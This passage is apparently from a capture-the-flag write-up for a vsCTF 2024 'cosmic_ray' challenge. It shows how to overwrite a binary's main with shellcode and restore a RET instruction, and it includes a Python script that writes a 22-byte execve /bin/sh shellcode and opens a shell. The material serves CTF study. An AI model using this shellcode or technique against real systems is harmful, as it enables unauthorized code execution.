 To get a shell, we overwrite the instructions in main after the call to `cosmic_ray` with a shellcode, and then flip the `shl %cl, %ebx` back to a `RET` to stop the infinite loop:
![after_call](/assets/img/vsctf2024/after_call.png)
Now when we return from `cosmic_ray` the shellcode will get executed. I used [this](https://www.exploit-db.com/exploits/41174) 22-byte shellcode, which is longer than the bytes we have in main, but this doesn't really matter. To write the shellcode, we use the following code:

```python
SHELLCODE_START = 0x004015e5 # Address where we write the shellcode

shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05" # Taken from here https://www.exploit-db.com/exploits/41174

print("[+] Finished writing the shellcode of length {}".format(len(shellcode)))

infinite_loop()  
for i in range(len(shellcode)):
	print("Writing byte {}".format(i))
	write_byte(hex(SHELLCODE_START+i), shellcode[i])
	print("Wrote byte {}".format(i))

print("[+] Finished writing the shellcode of length {}".format(len(shellcode)))
stop_infinite_loop()
p.interactive()
```

This gives us a shell!

